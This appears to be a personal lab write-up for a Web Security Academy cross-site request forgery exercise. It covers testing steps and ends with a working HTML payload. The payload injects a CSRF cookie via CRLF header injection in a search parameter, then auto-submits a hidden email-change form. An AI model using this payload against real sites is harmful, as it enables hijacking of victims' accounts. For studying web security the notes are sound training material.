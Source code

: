 Vulnerable parameter - email change functionality
Goal - exploit CSRF to change email address
Creds - wiener:peter, carlos:montoya

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters 

Testing CSRF Tokens:
1. Remove the CSRF token and see if application accepts request
2. Change the request method from POST to GET
3. See if csrf token is tied to user session

Testing CSRF Tokens and CSRF cookies:
1. Check if the CSRF token is tied to the CSRF cookie
   - Submit an invalid CSRF token
   - Submit a valid CSRF token from another user
2. Submit valid CSRF token AND cookie from another user

csrf token: SXsROOTp3jzq6M5UzIL2KkJIqGpffIQb
csrf cookie: ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH

In order to exploit this vulnerability, we need to perform 2 things:
1. Inject a csrf cookie in the user's session (HTTP Header injection) - satisfied
2. Send a CSRF attack to the victim with a known csrf token


- after taking a valid csrf token and cookie from another user we have to inject the csrf cookie into header (we will use search functionality in order to see if a search cookie parameter is generated and we will inject over there)
	![[Pasted image 20240922003407.png]]

![[Pasted image 20240922003858.png]]

![[Pasted image 20240922010507.png]]

- HTML payload (form action= https://HOST/POST (change email request - first tab) | 
               img src= https://HOST/POST(injected header - second tab) )
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <form action="https:///0a33009903154da184367954005e0013.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="UYjqwyyGyrsnr8qGu5adRFltwGbIS8S6">
        </form>

        <img src="https://0a33009903154da184367954005e0013.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=04WkQgPVzQFtURvOaoJEwc04UjhQb5Gb%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
```
